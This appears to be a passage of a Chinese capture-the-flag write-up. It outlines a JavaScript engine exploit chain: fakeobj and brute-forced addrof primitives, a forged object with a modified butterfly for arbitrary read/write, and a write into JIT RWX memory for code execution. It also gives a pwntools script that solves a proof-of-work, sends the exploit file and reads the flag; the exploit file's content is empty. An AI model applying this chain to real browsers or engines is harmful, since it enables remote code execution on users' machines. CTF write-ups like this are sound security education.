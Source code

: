 这样我们就得到了 `fakeobj` 的原语。但是还没有泄漏，可以使用参考文章中的技巧，结合 `fakeobj` 原语和 `===`，通过爆破实现 `addrof` 原语。可以发现在 ubuntu 20.04 上，低 24bit 是可以预测的，所以可以很快爆破出地址。接着就可以在 JS 堆上伪造对象了。通过修改伪造对象的 butterfly，可以实现更稳定的 `addrof`，以及任意地址读写。最后写函数 JIT 后的 RWX 内存实现任意代码执行。详情见 `exp.min.js`

```plain
python exp.py exp.min.js
```

exp.py:

```plain
from pwn import *
import subprocess
import sys
import string
import hashlib

context.log_level = "debug"
p = remote("0.0.0.0", 5000)
table = string.ascii_letters + string.digits + "+/"

def pow():
    p.recvuntil('sha256(XXXX + "')
    post = p.recvuntil('") == ', drop=True).decode("latin1")
    h = p.recvline().strip().decode("latin1")
    print(post)
    print(h)
    p.recvuntil("XXXX")
    for a1 in table:
        print(a1)
        for a2 in table:
            for a3 in table:
                for a4 in table:
                    pre = a1+a2+a3+a4
                    if h == hashlib.sha256((pre+post).encode("latin1")).hexdigest():
                        print(pre)
                        p.sendline(pre)
                        return

pow()
p.recvuntil(">>> ")
with open(sys.argv[1], "rb") as f:
    data = f.read()

p.sendline(data)
p.recvuntil("$")
p.sendline("cat /flag*")
p.interactive()
```

exp.min.js:

```plain
```